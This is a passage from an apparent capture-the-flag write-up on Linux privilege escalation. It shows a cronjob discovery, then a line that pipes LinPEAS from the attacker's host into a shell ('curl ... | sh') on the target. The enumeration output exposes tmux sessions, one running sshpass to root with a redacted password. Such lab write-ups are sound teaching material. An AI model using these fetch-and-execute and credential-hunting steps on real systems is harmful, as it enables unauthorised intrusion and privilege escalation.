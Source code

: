 So there is a cronjob that running `/bin/bash /home/marston/run.sh` every minute. However, we don't have access to that sh script file...

In here, I didn't find anything useful in manual enumeration and low hanging fruits. Let's use LinPEAS.

**LinPEAS:**
```shell
┌[root♥siunam]-(/usr/share/peass/linpeas)-[2023.01.20|18:35:55(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
ArthurMorgan@incognito:~$ curl -s http://10.9.0.253/linpeas.sh | sh
[...]
                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════
                ╚════════════════════════════════════════════════╝
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
[...]
marston    931  0.0  0.3  28604  1680 ?        Ss   07:54   0:00 tmux new-session -d
[...]
╔══════════╣ Login now
 10:37:20 up  2:44, 20 users,  load average: 0.38, 0.10, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
marston  pts/0    tmux(931).%0     07:54    2:42m  0.87s  0.87s -bash
marston  pts/1    tmux(931).%1     07:54    2:42m  1.25s  1.25s -bash
marston  pts/2    tmux(931).%2     07:54    2:42m  0.94s  0.94s -bash
marston  pts/3    tmux(931).%3     07:54    2:42m  0.48s  0.48s -bash
marston  pts/4    tmux(931).%4     07:54    2:42m  0.56s  0.56s -bash
marston  pts/5    tmux(931).%5     07:54    2:42m  0.95s  0.95s -bash
marston  pts/6    tmux(931).%6     07:54    2:42m  0.95s  0.95s -bash
marston  pts/7    tmux(931).%7     07:54    2:42m  0.65s  0.65s -bash
marston  pts/8    tmux(931).%8     07:54    2:42m  0.95s  0.95s -bash
marston  pts/9    tmux(931).%9     07:54    2:42m  0.48s  0.48s -bash
marston  pts/10   tmux(931).%10    07:54    2:42m  0.79s  0.79s -bash
marston  pts/11   tmux(931).%11    07:54    2:41m  0.93s  0.00s sshpass -p {Redacted} ssh root@localhost
marston  pts/12   tmux(931).%12    07:54    2:42m  0.80s  0.80s -bash
marston  pts/13   tmux(931).%13    07:55    2:42m  1.18s  1.18s -bash
marston  pts/14   tmux(931).%14    07:55    2:42m  0.87s  0.87s -bash
marston  pts/15   tmux(931).%15    07:55    2:41m  0.87s  0.87s -bash
marston  pts/16   tmux(931).%16    07:55    2:42m  0.93s  0.93s -bash
marston  pts/17   tmux(931).%17    07:55    2:42m  0.95s  0.95s -bash
marston  pts/18   tmux(931).%18    07:55    2:42m  0.56s  0.56s -bash
root     pts/20   127.0.0.1        07:55    2:41m  0.55s  0.55s -bash
[...]
╔══════════╣ Searching tmux sessions
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions
tmux 2.6

marston    931  0.0  0.3  28604  1600 ?        Ss   07:54   0:00 tmux new-session -d
/tmp/tmux-1001
[...]
```
